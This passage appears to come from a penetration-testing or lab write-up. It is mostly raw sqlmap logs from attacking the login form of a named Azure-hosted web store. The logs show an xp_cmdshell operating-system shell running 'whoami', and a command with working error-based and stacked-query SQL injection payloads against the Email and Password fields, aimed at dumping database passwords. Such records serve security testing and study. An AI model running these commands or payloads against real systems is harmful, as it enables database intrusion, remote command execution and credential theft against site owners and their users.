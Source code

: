 ```
[09:42:39] [WARNING] time-based standard deviation method used on a model with less than 30 response times
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] Y
[09:42:39] [INFO] xp_cmdshell extended procedure is available
[09:42:39] [INFO] testing if xp_cmdshell extended procedure is usable
[09:42:40] [WARNING] in case of continuous data retrieval problems you are advised to try a switch '--no-cast' or switch '--hex'
[09:42:41] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions
[09:43:09] [INFO] adjusting time delay to 1 second due to good response times
[09:43:15] [INFO] xp_cmdshell extended procedure is usable
[09:43:15] [INFO] going to use extended procedure 'xp_cmdshell' for operating system command execution
[09:43:15] [INFO] calling Windows OS shell. To quit type 'x' or 'q' and press ENTER
---
os-shell> whoami
do you want to retrieve the command standard output? [Y/n/a] Y
[09:47:53] [INFO] retrieved: 2
[09:47:55] [INFO] retrieved: nt authority\network service
[09:49:48] [INFO] retrieved:
command standard output: 'nt authority\network service'
```

#### Passwords
```bash!
┌──(root💀kali)-[~]
└─# sqlmap -u "http://digiserver2.eastus.cloudapp.azure.com/store/Account/Login" --method POST --data "Email=admin%40gss.com.tw&Password=123&RememberMe=false" -p "Email,Password" --dbms="MSSQL" --technique USE --batch --password
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.6.7#stable}
|_ -| . [']     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 09:56:35 /2022-08-21/

[09:56:35] [INFO] testing connection to the target URL
you have not declared cookie(s), while server wants to set its own ('ASP.NET_SessionId=eonlnh1ovt2...svgp1rhuis;VisitStart=2022/8/21 ä...� 09:56:34'). Do you want to use those [Y/n] Y
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: Password (POST)
    Type: error-based
    Title: Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (IN)
    Payload: Email=admin@gss.com.tw&Password=123' AND 4247 IN (SELECT (CHAR(113)+CHAR(112)+CHAR(118)+CHAR(113)+CHAR(113)+(SELECT (CASE WHEN (4247=4247) THEN CHAR(49) ELSE CHAR(48) END))+CHAR(113)+CHAR(120)+CHAR(106)+CHAR(118)+CHAR(113)))-- knGZ&RememberMe=false

    Type: stacked queries
    Title: Microsoft SQL Server/Sybase stacked queries (comment)
    Payload: Email=admin@gss.com.tw&Password=123';WAITFOR DELAY '0:0:5'--&RememberMe=false
---
[09:56:36] [INFO] testing Microsoft SQL Server
[09:56:36] [INFO] confirming Microsoft SQL Server
[09:56:37] [INFO] the back-end DBMS is Microsoft SQL Server
[09:56:37] [INFO] fetching banner
```